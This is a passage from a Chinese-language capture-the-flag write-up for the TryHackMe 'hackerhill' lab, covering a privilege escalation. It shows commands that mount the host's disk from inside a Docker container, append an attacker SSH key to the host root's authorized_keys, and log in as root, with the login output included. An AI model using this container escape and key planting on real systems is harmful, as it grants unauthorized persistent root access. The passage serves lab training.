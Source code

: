 ```

去```/root/container1_flag.txt```拿flag

## 提权

用```fdisk -l```命令打印发现```/dev/xvda1```这个分区应该是主机的分区

我们把它挂载到当前docker镜像的```/mnt/compromise```下面:

```
mkdir -p /mnt/compromise
mount /dev/xvda1 /mnt/compromise
```


在```/mnt/compromise/root```  拿到 root flag


把攻击机的公钥追加到靶机的authorized_keys
```
echo "ssh-rsa *************" >> /mnt/compromise/root/.ssh/authorized_keys
```

root身份登录靶机
```
┌──(root💀kali)-[~/tryhackme/hackerhill]
└─# ssh  root@10.10.243.173 -p 22                                                                                                                                                                                                     255 ⨯
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-1037-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Oct 29 08:25:38 UTC 2021

  System load:                      0.04
  Usage of /:                       88.8% of 7.69GB
  Memory usage:                     72%
  Swap usage:                       37%
  Processes:                        205
  Users logged in:                  0
  IPv4 address for br-9c1efeb291f3: 172.18.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.243.173

  => / is using 88.8% of 7.69GB


0 updates can be installed immediately.
0 of these updates are security updates.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
